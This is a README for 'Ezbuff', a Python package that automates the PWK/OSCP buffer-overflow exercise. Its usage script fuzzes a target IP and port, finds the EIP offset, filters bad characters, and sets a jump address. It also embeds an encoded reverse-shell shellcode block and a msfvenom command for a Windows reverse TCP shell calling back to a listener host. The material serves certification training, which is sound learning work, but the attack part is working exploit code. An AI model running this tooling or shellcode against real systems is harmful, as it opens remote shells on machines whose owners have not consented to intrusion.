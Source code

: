 # Ezbuff
Ezbuff is a Python package created to make the **2020 PWK buffer overflow** easier to perform and understand. I created this package because I am aware of the number of people who lose a lot of time during their **OSCP** exams because of the buffer overflow box and thought this would assist the process. Ezbuff does not perform the buffer overflow for you, it simply automates a lot of the procedures that need to be executed to accomplish a successful buffer overflow attack. Therefore, the manual labor like determining the actual number of bytes to send to crash the vulnerable application, filtering bad characters from registers, and payload generation are all left to the user.

## Installation
```python
pip3 install ezbuff
```

## Usage
```python
#!/usr/bin/env python3

from ezbuff import Overflow

def main():
	# Instanstantiate `Overflow` object
	obj = Overflow("192.168.230.10", 80, max_fuzz_bytes=2000)

	# to obtain details on the object you instantiated
	print(obj)
	# for more details
	print(repr(obj))

	# Change the target IP if running in interactive Python interpreter
	obj.targ_ip = "127.0.0.1"

	# Change the target port number if running in interactive Python interpreter
	obj.targ_port = 443

	# The number of seconds to wait in between the fuzzing process,
	# default = 5
	obj.fuzz_interval_seconds = 1

	# Set the increment of the fuzzer to be 150 as opposed to
	# the default of 100
	obj.fuzz_increment = 150

	# Fuzz the vulnerable application
	obj.fuzz()

	# Sets the number of bytes to crash the application.
	# Make sure to accommodate space for reverse shell!!
	# [!] this should be set after running `fuzz` for the remainder of the process
	obj.num_bytes_crash = 1500

	# Sending pattern to determine offset
	obj.send_pattern()

	# Get offset 
	offset = obj.get_offset("30416B30")
	print(offset)

	# Set offset value after retrieving from function above
	# [!] this should be set after running `get_offset` for the remainder of the process
	obj.offset = 780

	# Testing offset (obj.offset must be set from)
	# obj.test("offset")

	# Add bad characters to list containing bad characters found
	# after sending string of characters
	# [!] after sending a string of characters and finding a bad character
	# 	  append the character as an argument to the function `add_bad_char`
	#	  as shown below
	obj.add_bad_char("\x0a", "\x0d", "\x25", "\x26", "\x2b", "\x3d")

	# Send payload with all characters to find bad characters.
	obj.send_bad_chars()

	# Set the memory address to jump to after finding valid memory address
	# containing `jump` instructions set in x86 architecture
	# [!] the `jump_eip` must be bytes as shown below
	obj.jump_eip = b"\x83\x0c\x09\x10"
	obj.test("eip")

	# reverse shell payload
	# [!] must be in bytes
	shellcode = (
b"\xbe\x88\xe8\x2f\x51\xdb\xc0\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
b"\x52\x83\xc2\x04\x31\x72\x0e\x03\xfa\xe6\xcd\xa4\x06\x1e\x93"
b"\x47\xf6\xdf\xf4\xce\x13\xee\x34\xb4\x50\x41\x85\xbe\x34\x6e"
b"\x6e\x92\xac\xe5\x02\x3b\xc3\x4e\xa8\x1d\xea\x4f\x81\x5e\x6d"
b"\xcc\xd8\xb2\x4d\xed\x12\xc7\x8c\x2a\x4e\x2a\xdc\xe3\x04\x99"
b"\xf0\x80\x51\x22\x7b\xda\x74\x22\x98\xab\x77\x03\x0f\xa7\x21"
b"\x83\xae\x64\x5a\x8a\xa8\x69\x67\x44\x43\x59\x13\x57\x85\x93"
b"\xdc\xf4\xe8\x1b\x2f\x04\x2d\x9b\xd0\x73\x47\xdf\x6d\x84\x9c"
b"\x9d\xa9\x01\x06\x05\x39\xb1\xe2\xb7\xee\x24\x61\xbb\x5b\x22"
b"\x2d\xd8\x5a\xe7\x46\xe4\xd7\x06\x88\x6c\xa3\x2c\x0c\x34\x77"
b"\x4c\x15\x90\xd6\x71\x45\x7b\x86\xd7\x0e\x96\xd3\x65\x4d\xff"
b"\x10\x44\x6d\xff\x3e\xdf\x1e\xcd\xe1\x4b\x88\x7d\x69\x52\x4f"
b"\x81\x40\x22\xdf\x7c\x6b\x53\xf6\xba\x3f\x03\x60\x6a\x40\xc8"
b"\x70\x93\x95\x5f\x20\x3b\x46\x20\x90\xfb\x36\xc8\xfa\xf3\x69"
b"\xe8\x05\xde\x01\x83\xfc\x89\xed\xfc\x89\xaf\x86\xfe\x75\x20"
b"\x7e\x76\x93\x2a\x90\xde\x0c\xc3\x09\x7b\xc6\x72\xd5\x51\xa3"
b"\xb5\x5d\x56\x54\x7b\x96\x13\x46\xec\x56\x6e\x34\xbb\x69\x44"
b"\x50\x27\xfb\x03\xa0\x2e\xe0\x9b\xf7\x67\xd6\xd5\x9d\x95\x41"
b"\x4c\x83\x67\x17\xb7\x07\xbc\xe4\x36\x86\x31\x50\x1d\x98\x8f"
b"\x59\x19\xcc\x5f\x0c\xf7\xba\x19\xe6\xb9\x14\xf0\x55\x10\xf0"
b"\x85\x95\xa3\x86\x89\xf3\x55\x66\x3b\xaa\x23\x99\xf4\x3a\xa4"
b"\xe2\xe8\xda\x4b\x39\xa9\xeb\x01\x63\x98\x63\xcc\xf6\x98\xe9"
b"\xef\x2d\xde\x17\x6c\xc7\x9f\xe3\x6c\xa2\x9a\xa8\x2a\x5f\xd7"
b"\xa1\xde\x5f\x44\xc1\xca")
	# `get_payload` takes a parameter which is the name of the reverse shell file you created with msfvenom
	# Don't forget to specify a format in c programming language
	# obj.send_payload(shellcode)

if __name__ == '__main__':
	main()
	
# Sample payload with Msfvenom: msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=1337 EXITFUNC=
# thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d"

# Or use Vengen (https://github.com/binexisHATT/Vengen) to generate payloads with your custom options! 
```
